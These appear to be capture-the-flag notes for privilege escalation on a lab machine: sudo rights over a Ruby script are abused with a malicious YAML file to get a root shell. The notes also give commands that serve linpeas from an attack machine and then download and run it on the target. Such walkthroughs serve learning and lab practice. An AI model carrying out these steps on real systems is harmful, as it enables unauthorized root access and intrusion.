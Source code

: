 - running sudo -l, we find that henry can run the following command as root without a password.
```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
- reviewing /opt/update_dependencies.rb we find that it loads a file called dependencies.yml. 
- Our goal is to run `sudo /usr/bin/ruby /opt/update_dependencies.rb` with a malicious dependencies.yml.
- There is a malicious script here https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/ that will execute git set: 
- create a dependencies.yml in henry's home directory
- paste the malicious script in dependencies.yml
- change git set: /bin/bash and save
- run `sudo /usr/bin/ruby /opt/update_dependencies.rb`
- should be root


- Bringing linpeas on to vulnerable machine to help exploitation
	- with a reverse shell running over a python simple server at port 6969
	- on attack machine 
		- `wget -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh`
		- start a simple python server on port 6969
		- `$ python3 -m http.server 6969`
	- on target machine 
		- navigate to /tmp
		- curl it down and run from attack machine
```bash
$ wget http://attack machine ip:port/linpeas.sh
$ chmod 777 linpeas.sh
$ ./linpeas.sh | tee /tmp/linpeas.txt
```
